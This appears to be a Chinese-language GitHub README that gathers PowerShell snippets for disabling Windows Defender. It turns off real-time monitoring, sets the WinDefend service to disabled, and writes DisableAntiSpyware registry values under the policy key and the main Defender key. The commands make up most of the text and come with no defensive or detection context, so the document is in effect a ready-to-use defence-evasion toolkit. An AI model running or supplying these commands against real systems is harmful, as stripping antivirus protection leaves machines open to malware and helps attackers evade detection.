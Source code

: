 # Kill Windows Defender Exploration Process group文章合集
基于前一仓库的合计，具体链接🔗：![GO](https://github.com/sun12yyds/Kill-Windows-Defender-Exploration-Process)
# 文章合集🎲：
1.Chapter 1
```
禁用实时保护（保存powwershell运行）
Set-MpPreference -DisableRealtimeMonitoring $true
```
2.Chapter 2
```
基于第一章的研究发现的新成果：
发现了以下东西---
1.禁用 Windows Defender 服务
2.禁用 Windows Defender 通过组策略
3.禁用 Windows Defender 通过注册表
4.注意：均是用了：powershell

代码：
```

# 禁用实时保护
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

# 禁用 Windows Defender 服务
```
Set-Service -Name WinDefend -StartupType Disabled
```

# 禁用 Windows Defender 通过组策略
```
$registryPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"
$name = "DisableAntiSpyware"
$value = 1

if (-not (Test-Path $registryPath)) {
    New-Item -Path $registryPath -Force | Out-Null
}

New-ItemProperty -Path $registryPath -Name $name -Value $value -PropertyType DWORD -Force | Out-Null

# 禁用 Windows Defender 通过注册表
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows Defender"
$name = "DisableAntiSpyware"
$value = 1

if (-not (Test-Path $registryPath)) {
    New-Item -Path $registryPath -Force | Out-Null
}

New-ItemProperty -Path $registryPath -Name $name -Value $value -PropertyType DWORD -Force | Out-Null
```

```
